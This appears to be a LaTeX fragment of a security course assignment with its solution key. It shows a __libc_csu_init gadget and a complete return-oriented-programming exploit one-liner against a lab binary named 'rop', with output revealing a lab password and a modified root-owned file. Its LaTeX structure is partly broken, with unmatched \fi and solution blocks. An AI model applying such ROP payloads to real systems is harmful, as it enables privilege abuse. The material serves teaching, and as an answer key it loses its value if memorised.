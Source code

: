 \documentclass[a4paper,11pt]{article}
\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-12pt}\begin{framed}}%
{\end{framed}\par}
\begin{document}
\begin{itemize}
\begin{solution}
\newpage
The epilogue of \_\_libc\_csu\_init() function:
\begin{lstlisting}
 0x804868a:  pop    %edi
 0x804868b:  pop    %ebp
 0x804868c:  ret
 \end{lstlisting} 

\end{solution}\fi
\item What is the final exploit string that you used to accomplish this task? (The final exploit should not use gdb.)
\ifsolution\begin{solution}
\begin{lstlisting}[language=python]
~/rop % export SCRIPT=./somefile.sh

~/rop % ./rop "`python2.7 -c 'from struct import pack; print("A"*24 + pack("I", 0xb7eceba0) + pack("I", 0x0804868a) + pack("I", 0xbfffffbd) + pack("I", 0x080499a8) + pack("I", 0xb7e30ea0) + pack("I", 0x0804868b) + pack("I", 0xbfffffbd) + pack("I", 0xb7eceba0) + pack("I", 0x0804868a) + pack("I", 0xbfffffbd) + pack("I", 0x080499ac) + pack("I", 0xb7e24a60))'`" <<< "`python2.7 -c 'from struct import pack; print(pack("I", 0x000001C0) + pack("I", 0x00000180))'`"

Enter your help string:
Your help string is
Super secret password is syssec

~/rop % ls -al somefile.sh 
-rw------- 1 root users 50 Nov 21 07:20 somefile.sh
\end{lstlisting}
\end{solution}\fi
\end{itemize}
\begin{thebibliography}{---}
 Format String, Gotfault Security Community, \url{https://www.exploit-db.com/papers/13239/}
\end{thebibliography}
\end{document}
